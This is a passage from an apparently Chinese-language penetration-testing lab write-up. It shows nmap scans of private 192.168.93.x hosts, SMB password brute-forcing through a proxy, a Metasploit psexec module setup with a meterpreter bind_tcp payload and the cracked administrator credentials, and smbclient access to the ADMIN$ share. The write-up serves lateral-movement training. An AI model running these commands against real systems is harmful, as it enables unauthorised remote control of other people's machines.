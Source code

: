 ![image-20221012135337843](images/38.png)

```
nmap -A -v -T4 192.168.93.20
```

![image-20221012135531936](images/39.png)

```
nmap -A -v -T4 192.168.93.30
```

![image-20221012135728224](images/40.png)

只有20有一个开放的web服务，但是没有什么用，除此之外都开启了smb服务，尝试17_010永恒之蓝也不行

能够尝试的只有smb爆破与数据库爆破

## smb爆破

因为用的反向代理，所以利用windows的工具proxifier

![image-20221012140019064](images/41.png)】

用railgun爆破（这里是看到密码自己添加的，我字典里面没有123qwe!ASD）

![image-20221012141726237](images/42.png)

# SMB登陆

## PsExec

```
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.20
set smbuser administrator
set smbpass 123qwe!ASD
run
```

![image-20221012142950620](images/43.png)

## 查看共享目录并登录

```
smbclient -L 192.168.93.20 -U administrator

smbclient //192.168.93.20/ADMIN$ -U administrator
```

![image-20221012142735406](images/44.png)
